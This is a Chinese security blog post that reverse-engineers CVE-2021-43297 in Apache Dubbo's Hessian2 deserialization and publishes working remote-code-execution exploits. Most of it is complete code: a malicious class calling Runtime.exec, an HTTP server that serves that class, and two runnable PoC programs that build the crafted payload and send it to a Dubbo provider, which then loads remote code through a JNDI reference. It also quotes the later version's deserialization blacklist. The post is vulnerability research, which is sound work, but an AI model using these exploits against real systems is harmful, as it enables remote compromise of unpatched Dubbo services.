# 通过 CVE-2021-43297 漏洞在 Apache Dubbo<=2.7.13 下实现 RCE - bitterz - 博客园

> 原文：[`www.cnblogs.com/bitterz/p/15828415.html`](https://www.cnblogs.com/bitterz/p/15828415.html)

目录

*   0 前言
*   1 找源头
    *   1.1 找到触发点
    *   1.2 可用的 gadget
    *   1.3 向上推触发点
*   2 构造 poc
    *   2.1 开启 HttpServer
    *   2.2 hessian2 序列化过程简述
*   **3 poc**
*   4 总结
*   5 Dubbo<=2.7.13 可用的 POC
    *   5.1 原理分析
    *   5.2 可 RCE 到 2.7.13 的 POC
*   6 再次总结

# 0 前言

1 月 15 号看到 dubbo 的 CVE-2021-43297 通报，收集了一下各种说明，只在阿里云的通报中发现了一点提示信息 https://help.aliyun.com/document_detail/390205.html


没有找到相关的 poc 和原理分析，毕业论文实在写不下去了，所以想找点乐子，决定搞清楚具体怎么触发的该漏洞

# 1 找源头

## 1.1 找到触发点

根据阿里云通报的提示，翻了一下 apache-dubbo 的 github，没有发现有价值的 commit，但通报里写到是 hessian-lite 有问题，所以继续找到 hessian-lite 的 github，终于发现了有用的[commit](https://github.com/apache/dubbo-hessian-lite/commit/ca45bf8f8f41c6e5f7fb96c8cc6b409384de9a18)。这个 commit 注释写明删除了 toString 调用，看一下源代码



删除的代码中，因为使用了字符串拼接，所以 obj 对象会自动调用其 toString 方法，感觉来了啊：）

先直接给一个结论，这个 CVE 恐怕主要还是从 Hessian2Input.except()->obj.toString 触发的，其它也可以触发 obj.toString()的地方，例如 AbstractMapDeserializer#readObject()、AbstractListDeserializer#readObject()、AbstractDeserializer.readObject()、AbstractDeserializer#readMap()和 JavaDeserializer#logDeserializeError()并不好构造 poc 触发。各种 AbstractxxDeserializer 的方法都被下面的子类方法覆盖了并不会被调用；而 JavaDeserializer#logDeserializeError()是执行 value.toString，但反序列化 value 时调用的是 readObject(expectClass)，会比较反序列化的类与期望类是否相同，如果插入恶意字节流，则会报错 IOexception，不会执行到 value.toString。

## 1.2 可用的 gadget

由于之前搞过 dubbo 的反序列化，所以对 toString 方法开始触发的的 gadget 还是有记忆。

**第一种：JsonObject.toString**

[`www.cnblogs.com/bitterz/p/15588955.html`](https://www.cnblogs.com/bitterz/p/15588955.html)

dubbo<=2.7.3 时，由于其自带 fastjson<=1.2.46 版本，所以可以用 JsonObject 包裹一个 TemplatesImpl 对象，该 TemplatesImpl 的 _bytecodes 属性携带恶意字节码，在恶意字节码实例化的过程中实现 RCE。但是有版本限制，所以暂时不深入研究。

**第二种：ToStringBean.toString**

其实是 remo 调用链的截断，这个调用链可以看[我的博客](https://www.cnblogs.com/bitterz/p/15526206.html)，或者[三梦师傅的 github](https://github.com/threedr3am/learnjavabug/tree/master/dubbo/src/main/java/com/threedr3am/bug/dubbo)

原理是用 ToStringBean 对象包裹一个 JdbcRowSetImpl 对象，在调用 ToStringBean.toString 方法时，会调用其所包裹的 JdbcRowSetImpl 对象的所有 getter 方法，从而利用 JNDI 实现 RCE。写了一下 poc 没有成功。

**第三种：AspectJPointcutAdvisor.toString**

其实是[SpringAbstractBeanFactoryPointcutAdvisor](https://github.com/threedr3am/learnjavabug/blob/master/dubbo/src/main/java/com/threedr3am/bug/dubbo/SpringAbstractBeanFactoryPointcutAdvisorPoc.java)调用链的截断，调用链过长就不详细说了。

**第四种：ReadOnlyBinding.toString**

其实是[XBean 调用链](https://github.com/threedr3am/learnjavabug/blob/master/dubbo/src/main/java/com/threedr3am/bug/dubbo/XBeanPoc.java)的截断，截断后的调用链如下，其实就是利用其 toString 方法往下调用时会用到 NamingManager，在 NamingManager 中会去指定地址下载恶意 class 文件，并实例化，最终造成 RCE。

```
at java.lang.Class.newInstance(Class.java:442)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at org.apache.xbean.naming.context.ContextUtil.resolve(ContextUtil.java:73)
at org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding.getObject(ContextUtil.java:204)
at javax.naming.Binding.toString(Binding.java:192) 
```

其它可能的方法，比如 CC 链中的 TiedMapEntry 之类的就没有深究了，精力有限。

## 1.3 向上推触发点

最终选用 ReadOnlyBinding.toString 这个链（短一点，比较简单），前面找到了可用的 gadget，那么 obj.toString 方法如何才能到达呢，首先找到`com.alibaba.com.caucho.hessian.io.Hessian2Input`发现 obj 拼接在 except 方法中


并且在执行 obj.toString 方法前，obj 是由 Hessian2Input#readObject 方法反序列化出来的，那么可以思考，如果这里反序列化出来的是恶意 ReadOnlyBinding 对象，RCE 就达成了。借助 IDEA 继续往前推 except 会在哪里调用



实际上还是 Hessian2Input 这个类中，跟进一下具体的方法，以 readBoolean 为例

```
public boolean readBoolean()
    throws IOException {
    int tag = _offset < _length ? (_buffer[_offset++] & 0xff) : read();

    switch (tag) {
        case 'T':
            return true;
        case 'F':
            return false;
        case 0x80:
        case 0x81:
        // 省略了其它 case
        case 'N':
            return false;
        default:
            throw expect("boolean", tag); 
```

可见，hessian2 协议在反序列化布尔值时，通过一个给定的 tag 进行判断，当 tag 没有对应值时，会进入 default，从而调用 except 方法。

到这里也就清晰了，我们可以使用 hessian2 对某个对象进行**序列化**，得到一段 byte 数组，修改数组中某个布尔值属性所对应的 tag，即可在**反序列化**布尔值时找不到对应的 tag，然后进入 default，也就是进入 except 方法，再调用 obj.toString()从而实现 RCE。

# 2 构造 poc

## 2.1 开启 HttpServer

使用 ReadOnlyBinding.toString 这个链实现 RCE，要求开一个 http 服务器用于下载恶意 class 文件，借用一下[三梦师傅的代码](https://github.com/threedr3am/learnjavabug/blob/2f802e6af98433f24e08897a33aff0b37c52176f/common/src/main/java/com/threedr3am/bug/common/server/HTTPServer.java#L35)，并把其中的`new File(filePath)`处的 filePath 改成我的恶意 class 文级路径。

## 2.2 hessian2 序列化过程简述

由于涉及到修改序列化后的数据，所以必须要对序列化过程有一定的掌握（踩过坑，试过不看代码直接修改 byte 数组，非常困难且容易出错）

在 dubbo 中有很多序列化协议，例如 fastjson、hessian2 和 gson 等，其中 hessian2 被设置为默认的反序列化协议。在 hessian2 序列化的过程中，它会根据不同的类选择不同的序列化器，在处理某个类的不同属性时，又会根据其类型选择序列化器，如此迭代，最终完成序列化。

**示例代码**

```
// 创建 ReadOnlyBinding 对象
Context ctx = Reflections.createWithoutConstructor(WritableContext.class);
Reference ref = new Reference("ExecTest", "ExecTest","http://127.0.0.1:8080/");
ContextUtil.ReadOnlyBinding binding = new ContextUtil.ReadOnlyBinding("foo", ref, ctx);

// 接收序列化后的字节流
ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
// 创建 hessian2 序列化工具
Hessian2Output out = new Hessian2Output(hessian2ByteArrayOutputStream);
// 序列化 binding 对象
out.writeObject(binding); 
```

跟进**Hessian2Output#writeObject**方法看看

*   **com.alibaba.com.caucho.hessian.io.Hessian2Output#writeObject**

```
public void writeObject(Object object) throws IOException
{
    if (object == null) {
        writeNull();
        return;
    }
    Serializer serializer = findSerializerFactory().getObjectSerializer(object.getClass());
    serializer.writeObject(object, this);
} 
```

可以看到，直接从序列化器工厂根据对象类型获取相应的序列化器。调试后发现序列化 binding 对象时使用的是 JavaSerializer#writeObject

*   **com.alibaba.com.caucho.hessian.io.JavaSerializer#writeObject**

```
public void writeObject(Object obj, AbstractHessianOutput out) throws IOException {
    // 省略了一点代码

    Class<?> cl = obj.getClass();
    int ref = out.writeObjectBegin(cl.getName());  // 根据对象类型写入 tag，即前面 readBoolean 方法里的 tag

    if (ref < -1) {
            // 省略
        } else {
            if (ref == -1) {  // 序列化 binding 时进入这里，重点关注这里
                writeDefinition20(out);  // 写入 field 名字
                out.writeObjectBegin(cl.getName());  //
            }

            writeInstance(obj, out);
        }
} 
```

这里主要是会调用三个方法：

*   **writeObjectBegin**，根据类型写入 tag 头，在反序列化时，对应的反序列化器(deserializer)会调用反序列化方法（即 readBoolean、readString、readInt 等），并根据 tag 直接恢复值（true、false 等）或者再次计算后恢复值
*   **writeDefinition20**，遍历 _fields 数组，写入属性的名字

```
class JavaSerializer{
    private void writeDefinition20(AbstractHessianOutput out) throws IOException {
        out.writeClassFieldLength(_fields.length);  // 对象属性个数

        for (int i = 0; i < _fields.length; i++) {
            Field field = _fields[i];

            out.writeString(field.getName());
        }
	}
} 
```

*   **writeInstance**，遍历属性数组，写入每个属性对应的实例对象

```
class JavaSerializer{
    public void writeInstance(Object obj, AbstractHessianOutput out)
            throws IOException {
        for (int i = 0; i < _fields.length; i++) {
            Field field = _fields[i];

            _fieldSerializers[i].serialize(out, obj, field);
        }
    }
} 
```

其中 _fields 和 _fieldSerializers 如下



序列化器遍历属性，并写入字节流，由于字节流转成 java 中的 String 显示有些问题，所以将字节流转换十六进制放到 winhex 中结果如下：



可见其顺序和属性数组中的顺序一致，而 isRelative 属性的值时 false，在十六进制中用 46 表示，十进制 70，正好是 F 的 ascii。这里我是把其中的 fullName 属性设置为"<<<<<"来定位的。

我们可以假想，现在整个字节流就是 binding 对象，只要调用 binding 对象的 toString 方法即可完成 RCE，结合前面 1.3 说到的，如果我们把字节流替换到上图指定的 F 处，是不是就可以在反序列化过程中，执行 readBoolean 方法时进入 except 中呢？确实是的，不过完整的 poc 还需要组装一下 dubbo 数据包头部

# **3 poc**

*   **测试环境**

dubbo pom.xml

```
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo</artifactId>
    <version>2.7.8</version>
</dependency>
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo-common</artifactId>
    <version>2.7.8</version>
</dependency>
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo-dependencies-zookeeper</artifactId>
    <version>2.7.14</version>
    <type>pom</type>
</dependency>
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.15</version>
</dependency> 
```

IDEA 项目 pom.xml

```
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo</artifactId>
    <version>2.7.3</version>
</dependency>
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.51</version>
</dependency>
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo-common</artifactId>
    <version>2.7.3</version>
</dependency>
<dependency>
     <groupId>org.apache.xbean</groupId>
       <artifactId>xbean-naming</artifactId>
       <version>4.15</version>
     </dependency>
<dependency> 
```

zookeeper 3.3

dubbo+zookeeper 环境搭建就不重复写了，可见 https://www.cnblogs.com/bitterz/p/15526206.html 中的 2.3 节

*   **恶意类**

需要编译成 class

```
import java.io.IOException;
public class ExecTest {
    public ExecTest() throws IOException {
        new java.io.IOException().printStackTrace();
        java.lang.Runtime.getRuntime().exec("calc");
    }
} 
```

*   **启动 HttpServer**

需要修改一下代码，在 new File()中指定恶意 class 文件

```
import com.google.common.io.Files;
import com.sun.net.httpserver.Headers;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;
import com.sun.net.httpserver.spi.HttpServerProvider;
import java.io.BufferedReader;
import java.io.File;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.util.Iterator;
import java.util.List;
import java.util.Set;
import org.apache.commons.lang3.StringUtils;

/**
 * 解析 http 协议，输出 http 请求体
 *
 * @author xuanyh
 */
public class HTTPServer {

    public static String filePath;
    public static int PORT = 8080;
    public static String contentType;

    public static void main(String[] args) throws IOException {
        run(args);
    }

    public static void run(String[] args) {
        int port = PORT;
        String context = "/";
        String clazz = "Calc.class";
        if (args != null && args.length > 0) {
            port = Integer.parseInt(args[0]);
            context = args[1];
            clazz = args[2];
        }
        HttpServerProvider provider = HttpServerProvider.provider();
        HttpServer httpserver = null;
        try {
            httpserver = provider.createHttpServer(new InetSocketAddress(port), 100);
        } catch (IOException e) {
            e.printStackTrace();
        }
        //监听端口 8080,

        httpserver.createContext(context, new RestGetHandler(clazz));
        httpserver.setExecutor(null);
        httpserver.start();
        System.out.println("server started");
    }

    static class RestGetHandler implements HttpHandler {

        private String clazz;

        public RestGetHandler(String clazz) {
            this.clazz = clazz;
        }

        @Override
        public void handle(HttpExchange he) throws IOException {
            String requestMethod = he.getRequestMethod();
            System.out.println(requestMethod + " " + he.getRequestURI().getPath() + (
                    StringUtils.isEmpty(he.getRequestURI().getRawQuery()) ? ""
                            : "?" + he.getRequestURI().getRawQuery()) + " " + he.getProtocol());
            if (requestMethod.equalsIgnoreCase("GET")) {
                Headers responseHeaders = he.getResponseHeaders();
                responseHeaders.set("Content-Type", contentType == null ? "application/json" : contentType);

                he.sendResponseHeaders(200, 0);
                // parse request
                OutputStream responseBody = he.getResponseBody();
                Headers requestHeaders = he.getRequestHeaders();
                Set<String> keySet = requestHeaders.keySet();
                Iterator<String> iter = keySet.iterator();

                while (iter.hasNext()) {
                    String key = iter.next();
                    List values = requestHeaders.get(key);
                    String s = key + ": " + values.toString();
                    System.out.println(s);
                }
                System.out.println();
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(he.getRequestBody()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                for (;(line = bufferedReader.readLine()) != null;) {
                    stringBuilder.append(line);
                }
                System.out.println(stringBuilder.toString());

                byte[] bytes = Files.toByteArray(new File("D:\\xxx\\ExecTest.class")); 
                System.out.println(new String(bytes, 0, bytes.length));
                // send response
                responseBody.write(bytes);
                responseBody.close();
            }
        }
    }
} 
```

*   **CVE-2021-43297 poc**

```
package com.bitterz.dubbo;

import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.apache.dubbo.common.io.Bytes;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;
import sun.reflect.ReflectionFactory;

import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.Socket;
import java.util.HashSet;
import java.util.Random;

public class HessianLitePocBack {

    public static void main(String[] args) throws Exception {

        Context ctx = Reflections.createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("ExecTest", "ExecTest","http://127.0.0.1:8080/");
        ContextUtil.ReadOnlyBinding binding = new ContextUtil.ReadOnlyBinding("foo", ref, ctx);

//        Field fullName = binding.getClass().getSuperclass().getSuperclass().getDeclaredField("fullName");
//        fullName.setAccessible(true);
        Reflections.setFieldValue(binding, "fullName", "<<<<<");
//        fullName.set(binding, "<<<<<");  // 方便定位属性值的

        //############################################################################################
        // 写入 binding
        ByteArrayOutputStream binding2bytes = new ByteArrayOutputStream();
        Hessian2Output outBinding = new Hessian2Output(binding2bytes);
        outBinding.writeObject(binding);
        outBinding.flushBuffer();
        //############################################################################################
        // binding 序列化后的 byte 数组
        byte[] bindingBytes = binding2bytes.toByteArray();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        // 在 header 中记录 序列化对象 的长度，因为最后一个 F 被覆盖了，所以要-1
        Bytes.int2bytes(bindingBytes.length*2-1, header, 12);

        // 收集 header+binding
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(bindingBytes);
        byte[] bytes = byteArrayOutputStream.toByteArray();

        //############################################################################################
        // 组装 payload = header+binding+binding
        byte[] payload = new byte[bytes.length + bindingBytes.length -1];
        for (int i = 0; i < bytes.length; i++) {
            payload[i] = bytes[i];
        }

        for (int i = 0; i < bindingBytes.length; i++) {
            payload[i + bytes.length-1] = bindingBytes[i];
        }
        //############################################################################################

        // 输出字节流的十六进制
        for (int i = 0; i < payload.length; i++) {
            System.out.print(String.format("%02X", payload[i]) + " ");
            if ((i + 1) % 8 == 0)
                System.out.print(" ");
            if ((i + 1) % 16 == 0 )
                System.out.println();
        }
        System.out.println();
        // 输出 byte 数组转 String
        System.out.println(new String(payload,0,payload.length));

        //todo 此处填写被攻击的 dubbo 服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(payload);
        outputStream.flush();
        outputStream.close();
        System.out.println("\nsend!!");
    }

    public static class Reflections{
        public static void setFieldValue(Object obj, String fieldName, Object fieldValue) throws Exception{
            Field field=null;
            Class cl = obj.getClass();
            while (cl != Object.class){
                try{
                    field = cl.getDeclaredField(fieldName);
                    if(field!=null){
                        break;}
                }
                catch (Exception e){
                    cl = cl.getSuperclass();
                }
            }
            if (field==null){
                System.out.println(obj.getClass().getName());
                System.out.println(fieldName);
            }
            field.setAccessible(true);
            field.set(obj,fieldValue);
        }

        public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
            return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
        }

        public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
            Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
            objCons.setAccessible(true);
            Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
            sc.setAccessible(true);
            return (T) sc.newInstance(consArgs);
        }
    }
} 
```

执行后效果如下



# 4 总结

*   poc 经测试后发现，只在 apache dubbo<=2.7.8 生效，高版本 dubbo 做了反序列化验证，如果又其它可用 payload 或许可用达到 apache dubbo<=2.7.14。
*   另外其它从 toString 调用的 gadget 没有测试过，或许也可用。
*   由于 dubbo 的 hessian2 反序列化过程比较复杂，所以分析较少，但只需要知道每种类型对应不同的 read 方法即可也可理解（boolean->readBoolean()、int->readInt() ）

最后想说，根据漏洞描述直接复现漏洞还是有难度，即使是知道触发点的情况下还是踩了很多坑，最开始在 JavaDeserializer.logDeserializeError 这里被坑了很久，然后是手动修改 byte 数组被坑了，最后还是 Hessian2Output.writeObject 源码跟了一下才构建好完整的 poc。

* * *

* * *

* * *

以上内容为第一次研究成果，后面又研究了一下，发现了可以达到 apache dubbo<=2.7.13 的 poc

# 5 Dubbo<=2.7.13 可用的 POC

## 5.1 原理分析

前面的 POC 在 Dubbo>=2.7.9 就失效了，原因在于前面的 POC 会执行到`org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#decodeBody`方法，在该方法中又进一步会执行到下图这里



跟进该方法

*   org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#decodeEventData


可见 bytes 数组长度必须<50，显然会抛出错误，所以第三部分中的 poc 只能打到 2.7.8。

但是我们把目光回到`org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#decodeBody`中

```
protected Object decodeBody(Channel channel, InputStream is, byte[] header) throws IOException {
    byte flag = header[2], proto = (byte) (flag & SERIALIZATION_MASK);  // SERIALIZATION_MASK = 31
    // get request id.
    long id = Bytes.bytes2long(header, 4);
    if ((flag & FLAG_REQUEST) == 0) {  // FLAG_REQUEST = -128
        // decode response.
        Response res = new Response(id);
        if ((flag & FLAG_EVENT) != 0) {  // FLAG_EVENT = 32
            res.setEvent(true);
        }
        // get status.
        byte status = header[3];
        res.setStatus(status);
        try {
            if (status == Response.OK) {  // Response.OK = 20
                // 省略
            } else {
                // 重点在下面两行
                ObjectInput in = CodecSupport.deserialize(channel.getUrl(), is, proto);
                res.setErrorMessage(in.readUTF());
            }
        } catch (Throwable t) {
            // 省略
        }
        return res;
    } else {
        // 省略
    }
} 
```

*   首先通过计算可知，**当 flag <= 0x20 时**，proto = flag & SERIALIZATION_MASK = flag，即 0x1f & 31 = 31， 0x02 & 31 = 2

*   再通过计算可知，当 flag >= 0x80 时，flag & FLAG_REQUEST = 128；**当 flag<=0x7f 时，flag & FLAG_REQUEST = 0**

*   继续通过计算可知，当 flag >= 0x20 时，flag & FLAG_EVENT = 0；**当 flag <= 0x1f 时，flag & FLAG_EVENT = 0**

由于`flag=header[2]`，而 header 正是我们前 poc 中的 header，也就是说，我们可以控制 flag 的值！那么当 flag 被设置为小于等于 0x1f 时，就会执行到代码注释中的重点两行

```
ObjectInput in = CodecSupport.deserialize(channel.getUrl(), is, proto);
res.setErrorMessage(in.readUTF()); 
```

第一行看样子时根据 proto 选择反序列化协议，第二行中调用了 readUTF 方法进行反序列化。

首先跟进第一行，来到 `org.apache.dubbo.remoting.transport.CodecSupport#deserialiaze`方法中，这里 proto=31=0x1f


继续跟进，来到 `org.apache.dubbo.remoting.transport.CodecSupport#getSerialization`方法中


继续跟进，来到`org.apache.dubbo.remoting.transport.CodecSupport#getserializationById`方法中


调试模式下可以直接看到，Hessian2 协议的 id=2，即 0x02，结合前面的三条规则，0x02<0x1f。

回到前面的代码中

```
ObjectInput in = CodecSupport.deserialize(channel.getUrl(), is, proto);
res.setErrorMessage(in.readUTF()); 
```

将 flag 设置为 2 后，会正确创建 hessian2ObjectInput 对象。继续向下执行会首先执行 in.readUTF()，调试跟进该调用，结果如下



调试可见 mH2i 就是一个 Hessian2Input 对象，跟进 readString 方法



这时来到了前面解释过的 except 处理节奏了



## 5.2 可 RCE 到 2.7.13 的 POC

```
package com.bitterz.dubbo;

import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.apache.dubbo.common.io.Bytes;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;
import sun.reflect.ReflectionFactory;

import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.Socket;
import java.util.HashSet;
import java.util.Random;
public class HessianLitePoc {

    public static void main(String[] args) throws Exception {

        Context ctx = Reflections.createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("ExecTest", "ExecTest","http://127.0.0.1:8080/");
        ContextUtil.ReadOnlyBinding binding = new ContextUtil.ReadOnlyBinding("foo", ref, ctx);

//        Field fullName = binding.getClass().getSuperclass().getSuperclass().getDeclaredField("fullName");
//        fullName.setAccessible(true);
        Reflections.setFieldValue(binding, "fullName", "<<<<<");
//        fullName.set(binding, "<<<<<");  // 方便定位属性值的

        byte [] heder2 = new byte[]{-38, -69, -30, 0, 0, 0, 0, 0, 0, 0, 0, 3, 0, 0, 0, 1};
        //############################################################################################
        // 写入 binding
        ByteArrayOutputStream binding2bytes = new ByteArrayOutputStream();
        Hessian2Output outBinding = new Hessian2Output(binding2bytes);
        outBinding.writeObject(binding);
        outBinding.flushBuffer();
        //############################################################################################
        // binding 序列化后的 byte 数组
        byte[] bindingBytes = binding2bytes.toByteArray();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        // 在 header 中记录 序列化对象 的长度，因为最后一个 F 被覆盖了，所以要-1
        Bytes.int2bytes(bindingBytes.length*2-1, header, 12);

        // 收集 header+binding
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(bindingBytes);
        byte[] bytes = byteArrayOutputStream.toByteArray();

        //############################################################################################
        // 组装 payload = header+binding+binding
        byte[] payload = new byte[bytes.length + bindingBytes.length -1];
        for (int i = 0; i < bytes.length; i++) {
            payload[i] = bytes[i];
        }

        for (int i = 0; i < bindingBytes.length; i++) {
            payload[i + bytes.length-1] = bindingBytes[i];
        }
        //############################################################################################

        // 修改 flag 的值
        payload[2] = 0x02;

        // 输出字节流的十六进制
        for (int i = 0; i < payload.length; i++) {
            System.out.print(String.format("%02X", payload[i]) + " ");
            if ((i + 1) % 8 == 0)
                System.out.print(" ");
            if ((i + 1) % 16 == 0 )
                System.out.println();
        }
        System.out.println();
        // 输出 byte 数组转 String
        System.out.println(new String(payload,0,payload.length));
//        System.exit(1);
        //todo 此处填写被攻击的 dubbo 服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(payload);
        outputStream.flush();
        outputStream.close();
        System.out.println("\nsend!!");
    }

    public static class Reflections{
        public static void setFieldValue(Object obj, String fieldName, Object fieldValue) throws Exception{
            Field field=null;
            Class cl = obj.getClass();
            while (cl != Object.class){
                try{
                    field = cl.getDeclaredField(fieldName);
                    if(field!=null){
                        break;}
                }
                catch (Exception e){
                    cl = cl.getSuperclass();
                }
            }
            if (field==null){
                System.out.println(obj.getClass().getName());
                System.out.println(fieldName);
            }
            field.setAccessible(true);
            field.set(obj,fieldValue);
        }

        public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
            return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
        }

        public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
            Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
            objCons.setAccessible(true);
            Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
            sc.setAccessible(true);
            return (T) sc.newInstance(consArgs);
        }
    }
} 
```

Apache Dubbo=2.7.13，执行结果如下



Apache Dubbo=2.7.14，执行结果如下



原因在于，2.7.14 版本在`com.alibaba.com.caucho.hessian.io.ClassFactory`中添加了黑名单，通过包命和类名过滤将要创建的对象，而 Hessian2 反序列化创建对象时，都需要使用 ClassFactory 这个工厂类，所以 ReadOnlyBinding 直接被过滤了。而 2.7.15 版本则修复了 except 方法中对 obj 的拼接。

```
禁止包命如下
bsh.
ch.qos.logback.core.db.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.config.types.
com.caucho.hessian.test.
com.caucho.naming.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.v2.c3p0.
com.mysql.jdbc.util.
com.rometools.rome.feed.
com.sun.corba.se.impl.
com.sun.corba.se.spi.orbutil.
com.sun.jndi.rmi.
com.sun.jndi.toolkit.
com.sun.org.apache.bcel.internal.
com.sun.org.apache.xalan.internal.
com.sun.rowset.
com.sun.xml.internal.bind.v2.
com.taobao.vipserver.commons.collections.functors.
groovy.lang.
java.beans.
java.rmi.server.
java.security.
javassist.bytecode.annotation.
javassist.util.proxy.
javax.imageio.
javax.imageio.spi.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.script.
javax.sound.sampled.
javax.xml.transform.
net.bytebuddy.dynamic.loading.
oracle.jdbc.connector.
oracle.jdbc.pool.
org.apache.aries.transaction.jms.
org.apache.bcel.util.
org.apache.carbondata.core.scan.expression.
org.apache.commons.beanutils.
org.apache.commons.codec.binary.
org.apache.commons.collections.functors.
org.apache.commons.collections4.functors.
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.datasources.
org.apache.commons.dbcp2.datasources.
org.apache.commons.fileupload.disk.
org.apache.ibatis.executor.loader.
org.apache.ibatis.javassist.bytecode.
org.apache.ibatis.javassist.tools.
org.apache.ibatis.javassist.util.
org.apache.ignite.cache.
org.apache.log.output.db.
org.apache.log4j.receivers.db.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.dbcp.
org.apache.velocity.runtime.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.xsltc.trax.
org.apache.xbean.naming.context.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.apache.bcel.util.
org.codehaus.groovy.runtime.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.eclipse.jetty.util.log.
org.geotools.filter.
org.h2.value.
org.hibernate.tuple.component.
org.hibernate.type.
org.jboss.ejb3.
org.jboss.proxy.ejb.
org.jboss.resteasy.plugins.server.resourcefactory.
org.jboss.weld.interceptor.builder.
org.mockito.internal.creation.cglib.
org.mortbay.log.
org.quartz.
org.springframework.aop.aspectj.
org.springframework.beans.factory.
org.springframework.expression.spel.
org.springframework.jndi.
org.springframework.orm.
org.springframework.transaction.
org.yaml.snakeyaml.tokens.
pstore.shaded.org.apache.commons.collections.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.

正则匹配
java\lang\ProcessBuilder
java\lang\Runtime
java\util\ServiceLoader
javassist\tools\web\Viewer
org\springframework\beans\BeanWrapperImpl$BeanPropertyHandler 
```

# 6 再次总结

所给出的 poc 实现 RCE 需要满足：

*   apache dubbo <= 2.7.13 或 alibaba dubbo 对应版本

*   知道 dubbo provider 的 ip 和端口，且可以访问

*   dubbo provider 存在 xbean 链

*   dubbo provider 服务器允许向外 HTTP GET 请求

投稿文章后再次研究才发现有所不足，和可以改进的地方，学习和研究还需谨慎呀！
最后代码放在了我的[github 仓库](https://github.com/bitterzzZZ/CVE-2021-43297-POC)